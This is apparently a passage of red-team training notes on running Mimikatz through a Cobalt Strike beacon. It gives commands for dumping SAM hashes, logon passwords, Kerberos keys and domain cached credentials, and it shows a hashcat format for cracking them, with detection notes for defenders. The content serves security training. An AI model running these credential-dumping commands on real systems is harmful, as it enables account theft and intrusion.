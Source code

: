

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

Dump the Kerberos encryption keys of currently logged on users, it's more common to use Kerberos in modern systems so we can blend in easier.  These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

> [!info] 
> There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.
> The order is :
> 
> ```
aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
rc4_md4           59fc0f884922b4ce376051134c71e22c
rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c2c

> [!warning] 
> Requires elevated privileges.

> [!danger] 
> OPSEC: This modules will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 


## Domain Cached Credentials

The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.
```
2100|Domain Cached Credentials 2 (DCC2), MS Cache 2|$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f
```

> [!warning] 
>  DCC is much much slower to crack than NTLM.

> [!danger] 
> This module will open a handle to the SECURITY registry hive.  Use the "Suspicious SECURITY Hive Handle" saved search in Kibana to see them.

## Extracting Kerberos Tickets

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38189179-extracting-kerberos-tickets)

## DCSync

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38742955-dcsync)
